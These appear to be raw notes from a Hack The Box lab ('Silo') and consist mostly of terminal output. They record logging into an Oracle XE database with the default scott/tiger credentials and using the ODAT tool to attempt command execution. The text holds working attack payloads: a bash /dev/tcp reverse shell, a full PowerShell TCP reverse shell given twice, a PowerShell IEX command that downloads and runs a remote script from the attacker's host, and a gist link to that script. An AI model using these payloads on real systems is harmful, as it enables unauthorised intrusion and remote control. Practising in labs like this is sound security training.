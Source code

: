 

scott/tiger 


kali@kali:~/htb/boxes/silo/10.10.10.82$ sqlplus scott/tiger@10.10.10.82/XE

SQL*Plus: Release 19.0.0.0.0 - Production on Tue Jan 26 13:35:27 2021
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 


kali@kali:/opt/odat$ python3 odat.py java -s 10.10.10.82 -U scott -P tiger -d XE --exec "bash -i >& /dev/tcp/10.10.14.9/1234 0>&1"

[1] (10.10.10.82:1521): Execute the `bash -i >& /dev/tcp/10.10.14.9/1234 0>&1` on the 10.10.10.82 server
[-] Impossible to use the JAVA library to execute a system command: `ORA-29538: Java not installed`


./odat.py dbmsscheduler -s 10.10.10.82 -d XE -U scott -P tiger --exec "powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.9",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"




https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.9",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()



./odat.py dbmsscheduler -s 10.10.10.82 -d XE -U scott -P tiger --exec "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/mini-reverse.ps1')"





kali@kali:/opt/odat$ python3 odat.py dbmsscheduler -s 10.10.10.82 -d XE -U scott -P tiger --exec "ping 10.10.14.9"

[1] (10.10.10.82:1521): Execute the `ping 10.10.14.9` on the 10.10.10.82 server
[-] The `ping 10.10.14.9` command was not executed on the 10.10.10.82 server: `ORA-27486: insufficient privileges ORA-06512: at "SYS.DBMS_ISCHED", line 124 ORA-06512: at "SYS.DBMS_SCHEDULER", line 271 ORA-06512: at line 1`
[+] The Job is running

